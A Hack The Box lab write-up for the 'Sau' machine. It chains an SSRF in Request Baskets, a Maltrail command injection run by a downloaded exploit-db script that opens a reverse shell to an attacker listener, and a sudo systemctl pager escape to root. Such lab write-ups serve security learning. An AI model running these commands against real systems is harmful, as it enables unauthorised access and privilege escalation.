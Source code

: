 ```yaml
---
layout: single
title: Sau - Hack The Box
excerpt: "Sau is an easy Linux machine exploiting SSRF in Request Baskets (CVE-2023-27163) to access a vulnerable Maltrail instance. An unauthenticated OS command injection grants a shell as puma, and sudo misconfiguration leads to root."
date: 2024-10-23
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-sau/sau.jpg
  teaser_home_page: true
  icon: /blog/assets/images/hackthebox.webp
categories:
  - WriteUp
---
```



## Synopsis

Sau is an easy Linux machine featuring a vulnerable instance of **Request Baskets** (CVE-2023-27163), which allows **Server-Side Request Forgery (SSRF)**. Leveraging this vulnerability, we gain access to a **Maltrail** instance vulnerable to **Unauthenticated OS Command Injection**, enabling a reverse shell as the `puma` user. A **sudo misconfiguration** is then exploited to escalate privileges to root.

## Skills Required
- Web enumeration  
- Linux fundamentals  

## Skills Learned
- Exploiting SSRF vulnerabilities  
- Command injection  
- Sudo exploitation  

## Enumeration

### Nmap Scan

ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.224 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.224

The scan reveals:
- **Port 22:** OpenSSH  
- **Port 80:** Filtered  
- **Port 55555:** HTTP service (Request Baskets)  


## Exploitation

### Request Baskets SSRF (CVE-2023-27163)
The Request Baskets instance (version 1.2.1) is vulnerable to SSRF via the `/api/baskets/{name}` endpoint. This allows us to enumerate internal services.

1. Create a new basket and configure it to forward requests to our machine:

   nc -lnvp 80
   Set the **Forward URL** to `http://<attacker-IP>` and enable **Proxy Response** and **Expand Forward Path**.

2. Access the basket and observe the response:
   curl http://10.10.11.224:55555/<basket-id>

3. Forward requests to `http://127.0.0.1:80` to discover the **Maltrail** instance running internally.


### Maltrail Command Injection
The Maltrail instance (version 0.53) is vulnerable to **Unauthenticated OS Command Injection**.

1. Download the exploit:
   curl -s https://www.exploit-db.com/download/51676 > exploit.py

2. Start a Netcat listener:
   nc -lnvp 4444

3. Execute the exploit:
   python3 exploit.py <attacker-IP> 4444 http://10.10.11.224:55555/<basket-id>

4. Gain a reverse shell as the `puma` user:
   script /dev/null -c bash
   # Ctrl + z
   stty -raw echo; fg
   # Enter (Return) x2

5. Retrieve the user flag:
   cat /home/puma/user.txt

## Privilege Escalation

### Sudo Misconfiguration
The `puma` user can run `/usr/bin/systemctl status trail.service` as root without a password. This, combined with a vulnerable **Systemd version (245)**, allows privilege escalation.

1. Check sudo permissions:
   sudo -l

2. Exploit the Systemd vulnerability (CVE-2023-26604):
   sudo /usr/bin/systemctl status trail.service

3. When prompted, execute:
   !/bin/bash

4. Gain a root shell and retrieve the root flag:
   cat /root/root.txt

## Conclusion

Sau demonstrates the risks of **SSRF** and **command injection** vulnerabilities. By exploiting these and leveraging a **sudo misconfiguration**, we escalate privileges from a low-privileged user to root. This box highlights the importance of secure configurations and timely patching.

This writeup is concise, structured, and highlights the key steps and vulnerabilities exploited during the penetration test.